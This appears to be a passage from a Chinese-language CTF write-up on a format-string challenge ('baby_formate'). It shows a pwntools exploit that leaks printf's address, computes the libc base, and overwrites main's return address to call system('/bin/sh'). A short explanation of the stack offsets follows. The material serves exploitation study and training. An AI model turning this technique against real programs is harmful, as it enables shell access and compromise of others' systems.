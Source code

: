 ```python
printf_addr = u32(p.recvline()[0:4])
log.info('printf address is 0x%x, which can use to determine the version of libc.so' % printf_addr)

libc_base = printf_addr - printf_offset
#注意，不能覆盖exploit_me栈帧的返回地址，因为构造system("/bin/sh")的时候要使用8次格式化字符串漏洞，因此只能在main栈帧的返回地址进行构造。
ret_saddr = ebp + 0x34  # main栈帧退出时，获取返回地址所在的栈位置
arg1_saddr = ebp + 0x3c # 注意这里不是0x38，而是0x3C，当main中的ret指令，会获得

sys_addr = system_offset + libc_base
bin_sh_addr = bin_sh_offset + libc_base

var_in_stack_addr(ret_saddr, sys_addr)
var_in_stack_addr(arg1_saddr, bin_sh_addr)
log.info("Ready to call system(\"/bin/sh\")!")

p.recvrepeat(1)
p.sendline('EXIT') #主动触发EXIT，break后才能从main栈帧中退出，转入system
p.interactive()
```

![](\img\trifles\baby_formate1 (2).png)

可以看到如果在`ebp + 0x34=0xffffd2c`存储system地址，会使得main函数退出后，转入system函数，此时esp指向0xffffd30，之后在system中执行`push ebp`和`mov ebp,esp`，即此时`ebp`变为0xffffd2c，故`ebp+8=0xffffd2c+8 = 0xffffd34`位置作为第一个参数。

##### 实现结果

利用多次格式化字符串漏洞，获得shell：

![](\img\trifles\baby_formate1 (1).png)